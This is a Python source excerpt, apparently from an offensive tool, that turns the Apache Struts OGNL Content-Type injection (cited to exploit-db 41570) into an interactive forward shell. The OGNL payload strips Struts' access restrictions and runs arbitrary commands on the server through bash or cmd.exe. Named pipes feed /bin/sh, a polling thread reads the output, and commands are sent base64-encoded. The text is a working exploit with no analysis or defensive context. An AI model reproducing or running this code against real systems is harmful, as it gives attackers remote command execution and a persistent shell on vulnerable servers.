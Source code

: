 ```python

		# Setting up shell
		print('[*] Setting up forward shell on target')
		createNamedPipes = f'mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh > {self.stdout} 2>&1'
		self.runRawCmd(createNamedPipes, timeout=0.5)

		# Setting up read thread
		print('[*] Setting up read thread')
		self.interval = interval
		thread = threading.Thread(target=self.readThread, args=())
		thread.daemon = True
		thread.start()

	def readThread(self):
		getOutput = f'/bin/cat {self.stdout}'
		while True:
			result = self.runRawCmd(getOutput).decode('utf-8')
			if result:
				print(result)
				clearOutput = f'echo -n "" > {self.stdout}'
				self.runRawCmd(clearOutput)
			time.sleep(self.interval)

	# Source: https://www.exploit-db.com/exploits/41570
	def runRawCmd(self, cmd, timeout=50):
		payload = "%{(#_='multipart/form-data')."
		payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
		payload += "(#_memberAccess?"
		payload += "(#_memberAccess=#dm):"
		payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
		payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
		payload += "(#ognlUtil.getExcludedPackageNames().clear())."
		payload += "(#ognlUtil.getExcludedClasses().clear())."
		payload += "(#context.setMemberAccess(#dm))))."
		payload += "(#cmd='%s')." % cmd
		payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
		payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
		payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
		payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
		payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
		payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
		payload += "(#ros.flush())}"

		headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
		request = urllib2.Request(self.url, headers=headers)

		try:
			return urllib2.urlopen(request, timeout=timeout).read()
		except httplib.IncompleteRead as e:
			return e.partial
		except:  # _socket.timeout:
			pass

	def writeCmd(self, cmd):
		b64Cmd = base64.b64encode(f'{cmd.rstrip()}\n'.encode('utf-8')).decode('utf-8')
		unwrapAndExec = f'base64 -d <<< {b64Cmd} > {self.stdin}'
		self.runRawCmd(unwrapAndExec)
		time.sleep(self.interval * 1.1)

```